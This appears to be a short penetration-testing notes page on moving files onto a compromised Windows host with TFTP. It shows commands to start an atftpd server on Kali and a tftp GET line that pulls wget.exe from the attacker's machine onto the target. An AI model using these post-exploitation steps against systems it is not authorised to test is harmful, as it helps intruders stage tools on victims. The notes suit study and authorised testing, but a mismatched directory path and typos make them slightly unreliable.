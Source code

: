 # Transferring files to windows

Transferring files to linux is usually pretty easy. We can use netcat, wget, curl, which most systems have as default. But windows does not have these tools.

## TFTP

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactivly. Which means less risk of losing your shell.

Kali has a TFTP server build in.
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in /srf/tftp and it will be served. Remember that TFTP used UDP. So if you run netstat it will not show it as listening. 

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```
